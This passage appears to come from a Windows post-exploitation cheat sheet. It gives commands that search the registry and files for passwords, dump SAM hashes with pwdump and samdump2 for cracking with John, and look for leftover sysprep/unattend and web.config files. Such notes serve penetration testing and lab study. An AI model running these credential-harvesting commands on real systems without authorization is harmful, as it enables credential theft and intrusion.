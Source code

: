**Are there any SNMP configurations?** 

```text
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
```

```text
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## Interesting Files and Sensitive Information

This section may be a little noisy so you may want to output commands into txt files to review and parse as you wish.

**Any passwords in the registry?**

```text
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s 
```

Generate a hash file for John using `pwdump` or `samdump2`.

```text
pwdump SYSTEM SAM
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with `john -format=NT sam.txt`.

**Search File Contents**

Is their sysprep or unattended files available that weren’t cleaned up?

```text
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

**Search For A File With A Certain Filename**

```text
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

```
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```

```text
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```

**If the server is an IIS webserver, what’s in inetpub? Any hidden directories? web.config files?**

```text
dir /a C:\inetpub\
dir /s web.config
C:\Windows\System32\inetsrv\config\applicationHost.config
```
